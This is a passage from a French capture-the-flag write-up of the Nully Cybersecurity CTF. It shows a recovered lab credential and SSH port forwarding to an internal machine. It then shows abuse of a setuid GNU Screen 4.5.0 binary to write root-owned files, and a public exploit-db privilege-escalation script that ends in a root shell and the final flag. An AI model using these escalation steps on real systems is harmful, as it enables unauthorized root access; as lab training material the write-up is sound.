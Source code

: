 Dans le fichier `creds.txt` extrait on trouve des identifiants :

`donald:HBRLoCZ0b9NEgh8vsECS`

Je forwarde le port de cette nouvelle machine :

```bash
ssh -p 2222 -N -L 22222:172.17.0.3:22 bob@192.168.56.67
```

`LinPEAS` y trouve un fichier binaire setuid inhabituel :

`-rwsr-xr-x 1 root root 1.8M Aug 27  2020 /usr/bin/screen-4.5.0 (Unknown SUID binary)`

Il y a un [GTFObin concernant screen](https://gtfobins.github.io/gtfobins/screen/) :

```shellsession
donald@DatabaseServer:~$ /usr/bin/screen-4.5.0 -D -m -L /etc/zozo echo -ne  "This is dope"
donald@DatabaseServer:~$ cat /etc/zozo
This is dopedonald@DatabaseServer:~$ ls -al /etc/zozo
-rw-rw-r-- 1 root donald 12 Nov 30 07:03 /etc/zozo
```

On peut écrire des fichiers en tant que root mais quand j'ai tenté de rajouter une entrée à `/root/.ssh/authorized_keys` j'ai eu une erreur.

Je me suis tourné vers [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154), un code présent sur exploit-db. Il aura uniquement fallu modifier le path pour screen. Heureusement `gcc` était présent sur le système sans quoi ça aurait été plus laborieux (le script contient du code C qu'il compile à la volée) :

```shellsession

donald@DatabaseServer:~$ ./screen_exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There is a screen on:
        9728.pts-1.DatabaseServer       (Attached)
1 Socket in /tmp/screens/S-donald.
# id
uid=0(root) gid=0(root) groups=0(root),1000(donald)
# cd /root
# ls
3_flag.txt
# cat 3_flag.txt

    _  _   _____             _           _ _ 
  _| || |_|  __ \           | |         | | |
 |_  __  _| |__) |___   ___ | |_ ___  __| | |
  _| || |_|  _  // _ \ / _ \| __/ _ \/ _` | |
 |_  __  _| | \ \ (_) | (_) | ||  __/ (_| |_|
   |_||_| |_|  \_\___/ \___/ \__\___|\__,_(_)

   6cb25d4789cdd7fa1624e6356e0d825b                                            

Congratulations on getting the final flag! 
You completed the Nully Cybersecurity CTF.
I will be glad if you leave a feedback. 


Twitter https://twitter.com/laf3r_
Discord laf3r#4754
```
